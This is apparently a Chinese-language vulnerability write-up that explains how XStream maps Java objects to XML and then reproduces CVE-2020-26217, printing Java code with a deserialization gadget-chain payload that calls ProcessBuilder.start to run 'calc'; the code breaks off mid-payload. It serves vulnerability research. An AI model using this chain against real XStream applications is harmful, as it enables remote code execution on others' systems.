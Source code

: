

![image-20201228143951139](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228143951139.png)



从我们的demo与实际poc两个例子可以看出：在Xstream将Map生成xml格式数据时，会为每个Entry对象生成一个<entry>…</entry>元素，并将该Entry中的key与value作为其子元素顺次放置于其中第一个和第二个元素处。因此我们可以通过这个特点推断出，poc中jdk.nashorn.internal.objects.NativeString与string两个元素其实就是该Entry的key与value

从上图可见：在生成xml时，我们为Person对象赋值的name与age属性值成为了Person对象节点(<person>…</person>)的子元素(<name>…</name>、<age>…</age>)

因此可以推断，当一个java对象通过Xstream生成xml时，其结构应遵循如下结构

![image-20201228144553486](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228144553486.png)

回头看一下我们的poc，我们再展开一级看看

![image-20201228144643861](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228144643861.png)

通过上文的理解，上图poc可以理解为一个map集合，其中存在key为jdk.nashorn.internal.objects.NativeString对象、value值为test的Entry。而jdk.nashorn.internal.objects.NativeString对象又存在flags、value属性，它的flags属性值为0、value属性值为com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data



## 0X03CVE-2020-26217复现

![image-20201228152730941](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201228152730941.png)

```
import com.thoughtworks.xstream.XStream;
public class Xstream {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>\n" +
                "            <contentType>text/plain</contentType>\n" +
                "            <is class='java.io.SequenceInputStream'>\n" +
                "              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>\n" +
                "                <iterator class='javax.imageio.spi.FilterIterator'>\n" +
                "                  <iter class='java.util.ArrayList$Itr'>\n" +
                "                    <cursor>0</cursor>\n" +
                "                    <lastRet>-1</lastRet>\n" +
                "                    <expectedModCount>1</expectedModCount>\n" +
                "                    <outer-class>\n" +
                "                      <java.lang.ProcessBuilder>\n" +
                "                        <command>\n" +
                "                          <string>calc</string>\n" +
                "                        </command>\n" +
                "                      </java.lang.ProcessBuilder>\n" +
                "                    </outer-class>\n" +
                "                  </iter>\n" +
                "                  <filter class='javax.imageio.ImageIO$ContainsFilter'>\n" +
                "                    <method>\n" +
                "                      <class>java.lang.ProcessBuilder</class>\n" +
                "                      <name>start</name>\n" +
                "                      <parameter-types/>\n" +
                "                    </method>\n" +
```